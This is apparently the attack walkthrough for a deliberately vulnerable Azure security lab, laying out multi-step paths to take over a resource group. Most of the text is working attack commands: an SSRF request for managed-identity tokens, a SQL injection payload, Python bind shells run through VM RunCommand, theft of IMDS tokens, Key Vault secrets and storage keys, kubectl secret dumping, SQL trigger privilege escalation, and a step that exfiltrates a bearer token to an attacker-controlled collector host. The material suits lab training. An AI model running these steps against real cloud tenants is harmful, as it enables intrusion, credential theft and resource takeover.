

## Attacks

This section is not complete and by no means exhaustive. The idea is to give some hints on what is possible in the lab.

## Architecture



The same diagram as a PDF can be found in `/attacks/AzureLabFull.pdf`.

Since the diagram is updated with delay, there is also a small ASCII overview:

```
ROAD A — SQL pivot  (reaches Ganymede directly)
  E1 SSRF / E2 SQLi ─► webapp MI ─► S1 trigger-esc ─► db_owner
    ─► S2 MI-pivot (sp_invoke + DB-scoped cred) ─► Ceres bucket ─► tycho-db-exporter SP
    ─► Ganymede KV ─► Protomolecule ─► Contributor / RG   ★

ROAD B — AKS  (reaches Ganymede via Donnager)
  E1 SSRF / E2 SQLi ─► tycho-db read ─► espionage_credentials ─► Chrisjen SP
    ─► AKS cluster-admin ─► kubectl get secrets ─► fleet-ops-runner SP
    ─► RunCommand on Donnager ──────────────────┐
                                                │
ROAD C — VM ladder  (reaches Ganymede via Donnager)
  E3 storage leak ─► credentials.json ─► Alex SP ─► V1 Rocinante RCE
    ─► V2 KeysToTheScopuli MI ─► Scopuli
        ├─► V4 RunCommand on Donnager ──────────┤
        └─► V3 Owner on tycho-db ─► (rejoins Road A's SQL spine)
                                                │
  shared tail (Roads B & C):                    ▼
    Donnager RCE ─► V5 JovianAccess MI ─► Ganymede KV ─► Protomolecule ─► Contributor / RG   ★

SIDE LOOP  (from any Donnager foothold)
  Donnager ─► V6 labpallas listKeys ─► deploycreds SP ─► Contributor on tycho-webapp
    ─► SCM RCE ─► back to the web app
```

### Tycho-terminal web service

This one is very vulnerable and has at least 3 paths you can take to get further in the lab.

#### SSRF
Microsoft implemented some additional security for App Services, exploiting a SSRF to obtain an identity token is not as easy as in a VM where you can simply access http://169.254.169.254/metadata. 

Take a look here:
https://learn.microsoft.com/en-us/azure/app-service/overview-managed-identity?tabs=portal%2Chttp

Curl solution:
```
curl -s -v -X POST \
   -H "Content-Type: application/json" \
  "http://[tycho_fqdn]/api/proxy" \
  --data '{"url": "http://[your_msi_endpoint]/msi/token?resource=https://vault.azure.net&api-version=2019-08-01", "headers":"X-IDENTITY-HEADER: [your_msi_secret]"}'
```

#### SQL Injection

The folks working for the OPA on the Tycho terminal clearly prioritize function over security. There are many ways to exploit this. One solution:
```
' union select id,subject_name,secret,principal_type, id from dbo.espionage_credentials;--
```

#### Storage Container Info Leak

In the leaked environment variables the URL of the deployed source code can be found. That one leaks the name of the storage account labpallas which also holds some other juicy information, like Alex's credentials. 

### SSH to Rocinante via Azure AD
(This only works if you activated MFA for the user aburton)
First, login as `aburton@yourdomain` via `az login`.
Then: 
```
az ssh vm -n Rocinante -g [lab_uniq_id]_ExpanseAzureSecLab
```

### SSH to Rocinante/Scopuli via Key
`ssh [Rocinante/Scopuli_admin_user]@[Rocinante/Scopuli_public_IP] -i [Rocinante/Scopuli_private_key]`

### Use Alex SP for RCE on Rocinante

Starting with the SP: Alex

First, login to `az cli` with Alex SP.
```bash
az login --service-principal -u "[alex_app_id]" -p "[alex_sp_password]" -t [your_tenant_id]
```

#### Optional: Check permissions for the SP.
Note: Alex SP himself cannot list his permissions.
```bash
az role assignment list --assignee "[alex_app_id]" --all --include-inherited --include-groups --output json --query '[].{principalName:principalName, roleDefinitionName:roleDefinitionName, scope:scope}'
```
This returns a role name. Check the role permissions:
```bash
az role definition list --name "VM_Rocinante_RunCommand_ExtensionsWrite_lab_uniq_id"
```
#### Create a bind shell on Rocinante using Azure CLI:

```bash
az vm run-command invoke --resource-group [rg_name] -n Rocinante --command-id RunShellScript --scripts "python3 -c 'exec(\"\"\"import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind((\"0.0.0.0\",51337));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())\"\"\")'"
```

### Use Managed Identity on VM

An example attack is to use the user-assigned managed identity bound to the `Rocinante` VM to execute code on the `Scopuli` VM:

1. SSH to the `Rocinante`: `ssh [Rocinante_admin_user]@[Rocinante_public_IP] -i [Rocinante_private_key]`
2. Install `azure-cli` on the VM (`sudo apt update && sudo apt install azure-cli`)
3. Log in with the user MI on the `Rocinante` VM: `az login --identity --user [KeysToTheScopuli_MI_principal_id]`
4. Confirm RCE is possible: `az vm run-command invoke --resource-group [lab_uniq_id]_ExpanseAzureSecLab -n Scopuli --command-id RunShellScript --scripts "touch /runcommandTest.txt"`

### Get Managed Identity token on VM

Get access token of the attached MI:
```bash
ARM_TOKEN=$(curl -s -H Metadata:true "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com" | sed -n 's/.*"access_token":"\([^"]*\)".*/\1/p')
```

### Execute bind shell on VM (Scopuli) using API
This needs the "Get Managed Identity token on VM" technique to obtain a JWT token first.

Execute code on Scopuli using the access token via curl:

Fill in the variable:
```
SCO_ID="/subscriptions/[your_sub_id]/resourceGroups/[your_rg]/providers/Microsoft.Compute/virtualMachines/Scopuli"
```

```bash
curl -s -X POST -H "Authorization: Bearer $ARM_TOKEN" \
     -H "Content-Type: application/json" \
     "https://management.azure.com${SCO_ID}/runCommand?api-version=2024-11-01" \
     --data-binary @- <<'EOF'
{
  "commandId": "RunShellScript",
  "script": [
    "python3 -c 'exec(\"\"\"import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind((\"0.0.0.0\",51337));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())\"\"\")'"
  ]
}
EOF
```

### Accessing tycho-db from the Scopuli VM

Scopuli has owner permissions for the tycho-db - (might be worth finding out why ;) ). This can be used to access the DB:
```
sqlcmd -S tcp:[tycho_fqdn] -d tycho-db --authentication-method ActiveDirectoryDefault
```

### Pivot from Scopuli to Donnager

The MI attached to `Scopuli` (`scopuli-sql-provisioner`) holds a custom role granting `RunCommand` / `Extensions/Write` on the `Donnager` Windows VM. From a foothold on `Scopuli`, grab the MI token (see "Get Managed Identity token on VM") and execute code on `Donnager`:

```
DON_ID="/subscriptions/[your_sub_id]/resourceGroups/[your_rg]/providers/Microsoft.Compute/virtualMachines/Donnager"
```

```bash
curl -s -X POST -H "Authorization: Bearer $ARM_TOKEN" \
     -H "Content-Type: application/json" \
     "https://management.azure.com${DON_ID}/runCommand?api-version=2024-11-01" \
     --data-binary @- <<'EOF'
{
  "commandId": "RunPowerShellScript",
  "script": ["whoami; Get-ItemProperty -Path 'HKLM:\\SOFTWARE\\Expanse'"]
}
EOF
```

The `Donnager` admin (from the verbose output) is also reachable directly via RDP on the whitelisted `client_ip`.

### Donnager MI to Key Vault

The MI attached to `Donnager` (`JovianAccess`) is `Key Vault Secrets User` on the `Ganymede` Key Vault, which holds the `Protomolecule` SP credentials — and that SP is `Contributor` on the whole resource group.

On `Donnager` (via RDP or RunCommand), get a Key Vault token for the MI and read the secrets:
```powershell
$kv = (Invoke-RestMethod -Headers @{Metadata="true"} -Uri "http://169.254.169.254/metadata/identity/oauth2/token?resource=https://vault.azure.net&api-version=2018-02-01").access_token
$vault = (Get-ItemProperty 'HKLM:\SOFTWARE\Expanse').KeyVaultName
Invoke-RestMethod -Headers @{Authorization="Bearer $kv"} -Uri "https://$vault.vault.azure.net/secrets/Protomolecule-App-ID?api-version=7.4"
Invoke-RestMethod -Headers @{Authorization="Bearer $kv"} -Uri "https://$vault.vault.azure.net/secrets/Protomolecule-App-Secret?api-version=7.4"
```

### Loot on the Donnager host

After RDP/RCE on `Donnager`:
- Cleartext credentials in the registry (`Get-ItemProperty 'HKLM:\SOFTWARE\Expanse'`, also stored as the `cmdkey` generic credential.
- MI `JovianAccess` also holds `Storage Account Contributor` on `labpallas`. This is a control-plane role and does not grant data access by itself, but it allows calling `listKeys` - and an account key bypasses every scoped data-plane role, giving full read/write to all containers and file shares.

Run a command on the Donnager and pull an account key, then use it as any storage owner would:
```bash
# Get MI JWT token
az vm run-command invoke \
  --resource-group ExpanseAzureSecLab \
  --name Donnager \
  --command-id RunPowerShellScript \
  --scripts '
$kvToken = (Invoke-RestMethod -Headers @{Metadata="true"} -Uri "http://169.254.169.254/metadata/identity/oauth2/token?resource=https://management.azure.com&api-version=2018-02-01").access_token
$vault = (Get-ItemProperty -Path "HKLM:\SOFTWARE\Expanse").KeyVaultName

Write-Output "Vault: $vault"
Write-Output "Token : $kvToken"
'

# Set vars
ARM_TOKEN="[$kvTokenOutput]"
SUB="[your_sub_id]"
RG="[your_rg]"
SA="labpallas[suffix]"
BLOB="labpallas-[suffix]"

# Get Storage Account Keys
curl -sS -X POST \
  -H "Authorization: Bearer $ARM_TOKEN" \
  -H "Content-Type: application/json" \
  "https://management.azure.com/subscriptions/${SUB}/resourceGroups/${RG}/providers/Microsoft.Storage/storageAccounts/${SA}/listKeys?api-version=2026-04-01" \
  --data '{}'

KEY="[your account key]"

# List and download everything in the container (Alex's credentials.json, the Tycho source package)
az storage blob list     --account-name $SA --account-key "$KEY" -c $BLOB -o table
az storage blob download --account-name $SA --account-key "$KEY" -c pallas-[suffix] -n credentials.json -f ./credentials.json

# Reach the file share that mirrors the same secrets
az storage file list     --account-name $SA --account-key "$KEY" -s medina -o table

# Get access to the storage table on that account
az storage table list --account-name $SA --account-key "$KEY" -o table
# Extract the data
az storage entity query --account-name $SA --account-key "$KEY" --table-name deploycreds
```
The key also lets you mint a full-permission account SAS for offline reuse, independent of the MI:
```bash
az storage account generate-sas --account-name labpallas[suffix] --account-key "$KEY" \
  --services bfqt --resource-types sco --permissions rwdlacup --expiry 2099-01-01 -o tsv
```

### Use Storage Table SP for App Service RCE

The SP that can be found in the table of the storage account (readable using the storage key) has Contributor on the tycho-webapp. We can use this to execute code on it. Example assumes you are logged into az cli as the SP:

```bash

APP="<app_name>"

TOKEN=$(az account get-access-token \
  --resource https://management.azure.com/ \
  --query accessToken -o tsv)

curl -i -sS -X POST \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  "https://${APP}.scm.azurewebsites.net/api/command" \
  --data '{"command":"id","dir":"/home/site/wwwroot"}'
  ```


### Trigger Escalation on tycho-db (webapp MI -> db_owner)

Once you have T-SQL execution as the `tycho-terminal-...` webapp MI (e.g. via SSRF -> DB access token, or via the SQL injection above), enumerate your own permissions:

```sql
SELECT  p.permission_name, s.name + '.' + o.name AS obj, p.state_desc
FROM    sys.database_permissions p
JOIN    sys.objects o ON p.major_id = o.object_id
JOIN    sys.schemas s ON o.schema_id = s.schema_id
WHERE   p.grantee_principal_id = USER_ID();
```

You will notice a `GRANT ALTER` on `dbo.fleet_heartbeat`. That one table is also being written to every few minutes by the MCRN flagship — peek at it:

```sql
SELECT TOP 5 ship, posted_by_login, status, ts FROM dbo.fleet_heartbeat ORDER BY ts DESC;
```

`ALTER` on a table is enough to plant a DML trigger on it, and DML triggers run in the **caller's** security context — i.e. whoever inserts the next heartbeat row. Plant a trigger that adds your webapp MI to `db_owner` and wait one heartbeat tick. The reward is access to `dbo.protomolecule_samples`, a high-clearance table the webapp user can see but not read until they're db_owner.

Note: `tycho-db` is Azure SQL Serverless and auto-pauses after 60 min idle. If your enumeration shows no recent heartbeat rows, you've probably caught the DB cold — your first connection wakes it, and the writer ticks again within a few minutes.


### SQL MI Storage Pivot from `db_owner`

Once you have `db_owner` on `tycho-db` (via the `sql_trigger_escalation` chain), the Tycho SQL server has a user-assigned managed identity attached to it that holds `Storage Blob Data Reader` on a private `Ceres` archives storage account. First create a credential for the DB:

```sql
-- The scoped credential's secret needs a Database Master Key; a fresh tycho-db
-- has none (Msg 15581 otherwise). db_owner can create one; password is throwaway.
IF NOT EXISTS (SELECT 1 FROM sys.symmetric_keys WHERE name = '##MS_DatabaseMasterKey##')
    CREATE MASTER KEY ENCRYPTION BY PASSWORD = 'S0me-Throwaway-P@ssw0rd!';

CREATE DATABASE SCOPED CREDENTIAL [https://ceresXXXXX.blob.core.windows.net]
WITH IDENTITY = 'Managed Identity',
     SECRET   = '{"resourceid":"https://storage.azure.com"}';
```

The `SECRET` is not a password — its `resourceid` is the AAD audience the engine mints the MI token for (`https://storage.azure.com` for Blob Storage's data plane). 

To enumerate the container, point the same call at `?restype=container&comp=list` — but add `"Accept":"application/xml"` to `@headers` first. `List Blobs` only returns XML, and `sp_invoke_external_rest_endpoint` injects `Accept: application/json` by default and then JSON-parses the body, so without the header override you get `Msg 11558` instead of a listing. With it, `@response` is an XML envelope you can `CAST(@resp AS XML)` and shred for blob names. (The JSON-capable ADLS Gen2 `dfs` endpoint would avoid the header dance, but `*.dfs.core.windows.net` isn't on the proc's [outbound allowlist](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-invoke-external-rest-endpoint-transact-sql#allowed-endpoints).) You can also skip listing entirely: the loot path is disclosed in-DB via the nightly-exporter row in `dbo.maintenance_jobs`.

```sql
DECLARE @resp NVARCHAR(MAX);
DECLARE @ret  INT;

EXEC @ret = sp_invoke_external_rest_endpoint
    @url        = N'https://ceresXXXXXXXXXXXXXXX.blob.core.windows.net/db-backups?restype=container&comp=list',
    @method     = 'GET',
    @headers    = N'{"x-ms-version":"2021-12-02","Accept":"application/xml"}',
    @credential = [https://ceresXXXXXXXXXXXXXXX.blob.core.windows.net],
    @response   = @resp OUTPUT;

-- @resp is now an XML envelope; shred the blob names out of it.
SELECT n.value('.', 'NVARCHAR(400)') AS blob_name
FROM ( SELECT CAST(@resp AS XML) AS x ) AS j
CROSS APPLY j.x.nodes('//Blobs/Blob/Name') AS t(n);
```

Read runner config for loot:

```sql
-- The scoped credential's secret needs a Database Master Key; a fresh tycho-db
-- has none (Msg 15581 otherwise). db_owner can create one; password is throwaway.
IF NOT EXISTS (SELECT 1 FROM sys.symmetric_keys WHERE name = '##MS_DatabaseMasterKey##')
    CREATE MASTER KEY ENCRYPTION BY PASSWORD = 'S0me-Throwaway-P@ssw0rd!';

CREATE DATABASE SCOPED CREDENTIAL [https://ceresXXXXX.blob.core.windows.net]
WITH IDENTITY = 'Managed Identity',
     SECRET   = '{"resourceid":"https://storage.azure.com"}';

DECLARE @resp NVARCHAR(MAX), @ret INT;
EXEC @ret = sp_invoke_external_rest_endpoint
    @url        = N'https://ceresXXXXX.blob.core.windows.net/db-backups/automation/tycho-db_export_runner.json',
    @method     = 'GET',
    @headers    = N'{"x-ms-version":"2021-12-02"}',
    @credential = [https://ceresXXXXX.blob.core.windows.net],
    @response   = @resp OUTPUT;
SELECT @ret, @resp;
```

The blob is an `automation/tycho-db_export_runner.json` runner config with embedded service-principal credentials — the **`tycho-db-exporter`** SP. 

#### Exporter SP → Key Vault → resource-group Contributor

Log in with the SP creds from the loot blob (`az login --service-principal -u <client_id> -p <client_secret> -t <tenant_id>`). The exporter only needs its own storage connection string, but it was granted `Key Vault Secrets User` on the shared **Ganymede** vault — which also stores the `Protomolecule` SP creds. Read them:
```
az keyvault secret list --vault-name Ganymede-<suffix> -o table
az keyvault secret show --vault-name Ganymede-<suffix> -n Protomolecule-App-Secret --query value -o tsv
```
`Protomolecule` is `Contributor` on the whole resource group. Starting from just the web app, the pure-SQL path (SSRF → webapp MI → trigger escalation → `db_owner` → MI pivot → exporter SP → Ganymede → Protomolecule) reaches the crown jewels.


#### Variant: exfiltrate the server MI token to an external endpoint

The credential **name** and the token **audience** are decoupled: the name only has to be a URL prefix of the endpoint you call, while `resourceid` independently chooses which token gets minted. So instead of *using* the MI to read a blob in-place, you can have the engine mint a token for whatever audience you like and **ship it in the `Authorization` header to a host you control** — capturing a replayable MI bearer token off-box. Same `db_owner` foothold; no Storage RBAC on your side needed.

1. Stand up an HTTPS collector that logs request headers, **on a host that is on the proc's [outbound allowlist](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-invoke-external-rest-endpoint-transact-sql#allowed-endpoints)** and has a valid TLS certificate (Azure SQL validates the cert, and rejects any domain not on the list with `Connections to the domain ... are not allowed` — so an arbitrary `collector.attacker.example` or a raw interactsh/Collaborator host will *not* work). Practical attacker-controllable options: your own Azure Function / App Service (`*.azurewebsites.net`), a Static Web App (`*.azurestaticapps.net`), Container Apps (`*.azurecontainerapps.io`), or — the docs' own escape hatch for reaching anything else — an API Management instance (`*.azure-api.net`) fronting your real listener. The credential-name domain must be allowlisted too, not just the called URL.

2. From the `db_owner` session, create a credential whose *name* matches your collector and whose *resourceid* is the audience you want to steal a token for — e.g. Storage, ARM, or Key Vault:

```sql
CREATE DATABASE SCOPED CREDENTIAL [https://collector.attacker.example]
WITH IDENTITY = 'Managed Identity',
     SECRET   = '{"resourceid":"https://storage.azure.com"}';
```

3. Call your collector with that credential — the engine attaches a bearer token for the requested audience to the outbound request:

```sql
DECLARE @resp NVARCHAR(MAX), @ret INT;
EXEC @ret = sp_invoke_external_rest_endpoint
    @url        = N'https://collector.attacker.example/capture',
    @method     = 'GET',
    @credential = [https://collector.attacker.example],
    @response   = @resp OUTPUT;
SELECT @ret, @resp;
```

4. Pull `Authorization: Bearer <token>` out of your collector logs and replay it from your own machine against whatever the MI can reach — here, the Ceres data plane:

```bash
TOKEN='<captured bearer token>'
curl -s -H "Authorization: Bearer $TOKEN" -H "x-ms-version: 2021-12-02" \
  "https://ceresXXXXX.blob.core.windows.net/db-backups?restype=container&comp=list"
```

Swap the `resourceid` (`https://management.azure.com` for ARM, `https://vault.azure.net` for Key Vault, `https://graph.microsoft.com` for Graph) and repeat to map everything the MI can touch. Tokens are short-lived, so replay promptly.


### AKS Secrets Access

First, log in as the Chrisjen SP
```
az login --service-principal -u "[chrisjen_client_id]" --password '[chrisjen_client_secret]' -t tenant_id
```

Get cluster credentials
```
az aks get-credentials \
  --resource-group [lab_uniq_id]-ExpanseAzureSecLab \
  --name un_fleet_[lab_uniq_id] \
  --query "apiServerAccessProfile.enablePrivateCluster" --overwrite-existing
```

Convert to kubeconfig from Azure auth
```
kubelogin convert-kubeconfig \
  -l azurecli
```
Read secrets:
```
kubectl get secrets -o json
```

The interesting one is `fleet-ops-runner`: a service-principal credential
(`client_id` / `client_secret` / `tenant_id`) whose only privilege is
`RunCommand` on the **Donnager** VM. From here you can abuse `JovianAccess` MI → `Ganymede` Key Vault → `Protomolecule` hop to reach
resource-group Contributor:
```
SECRET=$(kubectl get secret fleet-ops-runner -o jsonpath='{.data.client_secret}' | base64 -d)
CID=$(kubectl get secret fleet-ops-runner -o jsonpath='{.data.client_id}' | base64 -d)
TID=$(kubectl get secret fleet-ops-runner -o jsonpath='{.data.tenant_id}' | base64 -d)
az login --service-principal -u "$CID" -p "$SECRET" -t "$TID"
az vm run-command invoke -g [rg_name] -n Donnager --command-id RunPowerShellScript \
  --scripts "whoami; Get-ItemProperty -Path 'HKLM:\\SOFTWARE\\Expanse'"
```
From there, see "Donnager MI to Key Vault" above.
